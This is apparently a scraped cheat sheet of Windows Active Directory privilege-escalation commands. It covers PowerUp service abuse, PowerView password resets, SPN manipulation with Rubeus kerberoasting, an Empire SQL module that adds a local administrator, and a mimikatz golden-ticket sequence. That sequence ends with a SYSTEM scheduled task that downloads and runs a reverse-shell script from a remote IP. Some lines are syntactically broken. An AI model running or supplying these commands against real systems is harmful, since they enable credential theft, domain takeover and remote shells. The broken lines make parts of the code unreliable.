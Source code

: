 ### Upgrade access with vds.exe service

```text
. .\PowerUp.ps1
Invoke-ServiceAbuse -Name 'vds' -UserName 'domain\user1'
```

### Improve access with ForceChangePassword


```text
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
Import-Module .\PowerView_dev.ps1
Set-DomainUserPassword -Identity user1 -verbose
Enter-PSSession -ComputerName COMPUTERNAME -Credential “”
```

### Improving access with the browser service

```text
. .\PowerUp.ps1
Invoke-ServiceAbuse -Name 'browser' -UserName 'domain\user1'
```

### Improve access with GenericWrite access

```text
$pass = ConvertTo-SecureString 'Password123#' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\MASTER USER'), $pass)
Set-DomainObject -Credential $creds USER1 -Clear service principalname
Set-DomainObject -Credential $creds -Identity USER1 -SET @{serviceprincipalname='none/fluu'}
.\Rubeus.exe kerberoast /domain:<DOMAIN>
```

### Improve access using Sql service and ActiveSessions

```text
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/lateral_movement/Invoke-SQLOSCmd.ps1
. .\Heidi.ps1
Invoke-SQLOCmd -Verbose -Command “net localgroup administrators user1 /add” -Instance COMPUTERNAME
```

### Get golden ticket using mimikatz and scheduled task

```text
1.mimikatz# token::elevate
2.mimikatz# vault::cred /patch
3.mimikatz# lsadump::lsa /patch
4.mimikatz# kerberos::golden /user:Administrator /rc4:<Administrator NTLM(step 3)> /domain:<DOMAIN> /sid:<USER SID> /sids:<Administrator SIDS> /ticket:<OUTPUT TICKET PATH >
5. powercat -l -v -p 443
6.schtasks /create /S DOMAIN /SC Weekly /RU "NT Authority\SYSTEM" /TN "enterprise" /TR "powershell.exe-c 'iex (iwr http://10.10.10.10/reverse.ps1)'"
7.schtasks /run /s DOMAIN /TN "enterprise"
```
